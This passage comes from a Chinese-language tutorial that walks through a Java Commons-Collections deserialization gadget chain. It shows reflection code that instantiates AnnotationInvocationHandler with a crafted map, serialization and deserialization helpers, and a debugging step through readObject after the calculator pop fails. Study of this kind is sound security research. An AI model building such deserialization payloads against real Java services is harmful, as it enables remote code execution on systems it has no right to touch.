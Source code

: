           // 以下就是通过反射获取类然后获取它的构造方法，然后在进行实例化
          Class<?> hander = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
          Constructor<?> handerConstructor = hander.getDeclaredConstructor(Class.class, Map.class);
          handerConstructor.setAccessible(true);
          // 然后拿到这个对象后面进行反序列化
          Object o = handerConstructor.newInstance(Target.class, decorate);
      
          // 进行序列化和反序列化
          serialize(o);
          unserialize();
      }
      
      /**
           * 反序列化
           * @return: java.lang.Object
           **/
      public static Object unserialize() throws Exception {
          ObjectInputStream ois = new ObjectInputStream(new FileInputStream("test.bin"));
          return ois.readObject();
      }
      
      /**
           * 序列化
           * @return: void
           **/
      public static void serialize(Object o) throws Exception{
          ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("test.bin"));
          oos.writeObject(o);
      }
      ```

29.   **运行后并没有弹计算器，这个时候就可能就人力难以发现问题所在，所以这个时候的思路就是进行调试，在`AnnotationInvotationHandle`类中的`readObject`方法中写一个断点**

      ```java
      for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
          // 这会获取到value，后面会把这个name做为key去获取相对于的值
          String name = memberValue.getKey();
          Class<?> memberType = memberTypes.get(name);
          // 所有我们要让map的key等于value，要不然这个if都进不去
          if (memberType != null) {  
              // 然后这里拿到key所对应的值
              Object value = memberValue.getValue();
              // 这里判断能不能强转，我们是string，那肯定是不能的，所以肯定可以往下走
              if (!(memberType.isInstance(value) || value instanceof ExceptionProxy)) {
                  // 就是这里跟进去看看
                  memberValue.setValue(
                      new AnnotationTypeMismatchExceptionProxy(
                          value.getClass() + "[" + value + "]").setMember(
                          annotationType.members().get(name)));
              }
          }
      }
      